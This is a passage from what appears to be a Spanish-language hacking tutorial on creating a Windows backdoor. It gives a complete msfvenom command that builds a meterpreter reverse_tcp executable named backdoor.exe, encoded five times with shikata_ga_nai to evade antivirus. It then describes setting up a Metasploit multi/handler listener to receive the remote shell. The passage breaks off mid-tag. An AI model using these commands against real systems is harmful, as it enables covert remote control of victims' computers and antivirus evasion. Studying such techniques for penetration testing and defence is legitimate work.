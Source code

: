 
Casi todos los antivirus lo han detectado así que... ¿Qué podemos hacer? Pues bien, a parte de utilizar otros formatos y sistemas como las **macros de Suite de Office** para esconder nuestras backdoors, podemos usar algo llamado **encoders**. Tal y como su nombre indica, los *enconders* codifican el programa, haciéndolo más difícil de leer para los antivirus. No siempre funciona y es por ello que se requieren diferentes métodos. A continuación veremos cómo funciona un encoder.

## Usando encoders
msfvenom ofrece la posibilidad de usar un encoder en el momento de crear el programa malicioso. Existen diferentes encoders, uno de los más comúnes es "shikata_ga_nai". Para utilizarlo, debemos volver a crear el programa, esta vez con dos parámetros extras:
- "-e": Indica el encoder a utilizar -> `x86/shikata_ga_nai`
- "-i": El numero de iteraciones -> `5`

El número de iteraciones a utilizar indica la cantidad de veces que se codificará el programa, haciendo el programa cada vez menos legible con cada iteración. Se recomienda no iterar más de 5 veces, pues el antivirus lo puede detectar directamente como *malware*.

Bien, pues el comando final quedaría de la siguiente forma:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.*** lport=4444 -e x86/shikata_ga_nai -i 5 -f exe -o /home/r4kso/Desktop/backdoor.exe
```

<p align="center">
<img src="/assets/images/crear-backdoor-como-funciona/creacion-programa-codificado.png" width="100%">
</p>

Como se puede ver en consola, el programa se ha creado correctamente y esta vez codificado para tratar de *bypassear* al antivirus.

> Nota: Esto NO será suficiente para engañar al antivirus, se necesitan otros métodos para conseguirlo.

Ahora iniciaremos la **escucha** en el puerto que hayamos escogido para nuestro programa malicioso, sirviéndonos de Metasploit. Para ello, lo iniciaremos mediante el comando `msfconsole`, usaremos la utilidad `multi/handler`. Una vez dentro de esta utilidad indicaremos qué tipo de payload hemos utilizado mediante el comando `payload windows/meterpreter/reverse_tcp`. Después, indicaremos el host (`LHOST`) y el puerto (`LPORT`).

<p align="center">
